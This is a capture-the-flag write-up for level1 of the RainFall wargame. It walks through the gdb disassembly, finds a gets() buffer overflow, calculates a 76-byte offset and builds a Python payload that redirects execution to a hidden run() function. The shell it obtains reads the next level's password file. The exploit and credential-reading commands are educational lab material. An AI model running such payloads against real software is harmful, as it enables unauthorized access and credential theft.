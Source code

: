 **Basic examination**

Again, only one file, "level1" to run. Let's try it.
~~~bash
./level1
|
~~~
Exacutable waits for the user input and than exits. 

**Assembly dump analysis**

The assembly dump for a main function in **gdb** tool will show us more:
~~~assembly
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp       ;stack allignment up to this point.
   0x08048486 <+6>:	sub    $0x50,%esp             ;allocates 80 bytes (0x50 in hex) to the stack
                                                  ;there would be some variable declared with memory allocated.
   0x08048489 <+9>:	lea    0x10(%esp),%eax    
   0x0804848d <+13>:	mov    %eax,(%esp)           ;moves the addressin EAX (buffer) to the top of the stack
   0x08048490 <+16>:	call   0x8048340 <gets@plt>  ;calls the gets function (reads the line of input from user
                                                   ;and stores it into the buffer.
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret                          ;pops the return address from the stack and jumps to it
~~~

As we can see, the main allocates 80 bytes on the stack, calculates the pointer to the buffer for gets, calls gets and returns, with no other procedures. This looks like a dead end and we need to examine further, so we list all the functions in gdb, using **info functions** command. From the listing, **run()** looks like our way forward, as also the assembly dump suggest by calling a system function:
~~~assembly
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>      ;writing a message
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>      ;calling system function, pattern that we identified in the                                                            ;previous level
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret  
~~~
There is no direct call from **main** to run run(), so we need to somehow force the execution workflow to run it. This will be done using **buffer overflow** (stakc frame and principles of buffer overflow beautifully explained [**HERE**](https://www.cameronwickes.co.uk/stack-frames-pointers/).  

## Buffer overflow
The memory address of the run is **0x08048444**as we can see from the previous info functions command in gdb. Now we just need and offset to get the location of the proper position to rewrite in stack frame of the program. We can use some pattern generator (like [**Wiremask**](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) along with gdb to calculate it. Running a program with dummy pattern will give us a segfault, but gdb will tell us it happens at **0x63413563**. We put this to Wiremask tool to find out the offset is 76.
Now we can create a string to send to the program that will contain the memory address of the run() function right after the offset, thus forcing it to execute as return address. We can do this using a simple python script and a pipe to send the output to the program as stdin:
~~~bash
level1@RainFall:~$ python -c 'print "42" * 38 + "\x08\x04\x84\x44"[::-1]' > /tmp/exploit
~~~
Prints 76 bytes + mem address using little endian as proper format (python will reverse bytes using[::-1]) into the file.
~~~bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
~~~
cats the file as stdin ("-") and sends it to the execution of the program...and...voila!
~~~bash
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
~~~


